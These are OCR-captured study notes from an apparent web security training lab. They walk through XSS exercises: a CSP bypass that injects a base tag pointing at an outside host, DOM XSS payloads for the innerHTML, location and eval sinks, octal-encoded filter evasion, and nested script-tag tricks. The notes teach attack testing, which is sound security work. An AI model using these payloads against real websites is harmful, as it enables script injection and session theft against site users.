 •	Exercise 33 Injection Bypassing CSP
o	It is a case of Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks.
o	To find search Content-Security-Policy into source code
o	script-src 'nonce-9effed1b02010163'
o	CSP-Bypass Search this policy into the blog.
	In our case 
	Policy Example:
	script-src 'nonce-r4nd0mch4rs';
	Bypass Example:
	<Base Href=//X55.is>
o	asdf</h1><Base+Href=//X55.is>

3.	DOM XSS (Document Object Mode XSS)
•	Exercise 25 Injection in Javascript DOM – Document Sink
o	In this case it’s a DOM based XSS, When we change the value, it’s not reflecting in source code, but it is reflecting on Front end.
o	Using BurpSuit, Open Proxy> Open Browser> target.com
o	In the Burp Suite Chromium Extension Turn On DOM Invader Settings. Put any keyword that we are checking “asdf” and Update canary.
o	In the Inspect(F12), Click last tab DOM Invader, It will show us where the value getting reflected, here it’s in element.innerHTML, it’s on the HTML, not inside anything so we can directly put payload in the URL.
o	asdf<img src=x onerror=confirm(1)>
o	asdf<img src onerror=alert(1)>
•	Exercise 26 Injection in Javascript DOM – Location Sink
o	It is similar case of Ex 21 but DOM XSS
o	So whenever you get a URL redirection, whenever you provide any link in any of the parameter and it just to redirects you to that link, if your values reflected in the source code, then you can work them easily but it's not reflecting, but its redirecting then you can put this script.
o	javascript:alert(1)
•	Exercise 27 Injection in Javascript DOM – Execution Sink
o	In this case it is getting reflected but this time it's not inside the document where we can directly execute the code right, so it is inside the event.
o	eval is used to evaluate the things in the JavaScript.
	eval(function)=result
•	eval(1+2)=3
•	eval(‘Hi’+’there’)= Hi there
o	Go to Source tab and search, to find where is the eval
	eval('n.p=' + p27.toLowerCase());
o	alert(1) can put directly in URL to get exploit.
•	Exercise 30 Filtered Injection in Javascript DOM – Document Sink
o	It is similarly Ex.25 reflected inside element.innerHTML 
o	So we need to encode payload and put in the URL
o	asdf<img src=x onerror=confirm(1)>
o	asdf<img src onerror=alert(1)>
o	use BurpSuite Decoder or use CyberChef
	<img src=x onerror=confirm(1)> Encode into Octal
	74 151 155 147 40 163 162 143 75 170 40 157 156 145 162 162 157 162 75 143 157 156 146 151 162 155 50 61 51 76
	And replace all spaces with \ and put \ in beginning 
	\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\143\157\156\146\151\162\155\50\61\51\76
	And paste into URL
4.	More Tips of XSS
1.	<script>alert(l)</script>  alert(1)
•	If <script> tag is filtered and showing alert(1) output only then use this
•	<scr<script>ipt>alert(l)</scr</script>ipt>
o	So server’s code will filter <script> part and again our payload will execute.
o	<script>alert(l)</script>